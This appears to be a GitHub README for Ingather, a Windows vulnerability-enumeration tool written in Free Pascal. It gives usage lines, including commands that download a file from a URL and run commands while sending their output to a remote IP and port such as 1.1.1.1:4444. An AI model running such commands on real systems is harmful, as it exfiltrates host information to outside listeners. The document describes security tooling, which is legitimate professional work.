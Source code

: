 # Ingather

Windows vulnerability command line enumeration tool.  Written in Free Pascal/Lazarus: http://www.lazarus-ide.org/index.php?page=downloads.

```
Usage: Ingather.exe -i 1.1.1.1 -p 4444 -o output.txt
       Ingather.exe -d http://www.abcded.com/abc.txt -s c:\temp\abc.text
       Ingather.exe -c "ipconfig /all" -i 1.1.1.1 -p 4444

Download file over HTTP:
       -d, --download    : download file
       -s, --save        : location to save downloaded file to
       -z,               : use the Windows HTTP download function
                           otherwise use custom HTTP download function
Run options:
       -c, --command     : run command and send output across network
       -e, --enum        : run all builtin enumerations
Output options:
       -i, --ip          : destination IP address
       -p, --port        : destination port
       -o, --out         : write enumeration command outputs to file
NOTE: If output to file or network is specified,
      screen output will be suppressed.
Info:
       -h, --help        : print this help message
       -l, --list        : print default enum commands and descriptions
```

Reduce Lazarus EXE file size: http://lazplanet.blogspot.com/2013/03/how-to-reduce-exe-file-size-of-your.html

Synapse Lazarus TCP package:  http://www.ararat.cz/synapse/doku.php/download; Install: http://wiki.freepascal.org/Synapse#Installation
- Download Synapse and extract it to the `\lazarus\components\` directory.

DISCLAIMER:
This program is for educational use and/or vulnerability enumeration by cyber security professionals only.  All responsability and negative consequences for its use falls entirely on the one executing it.
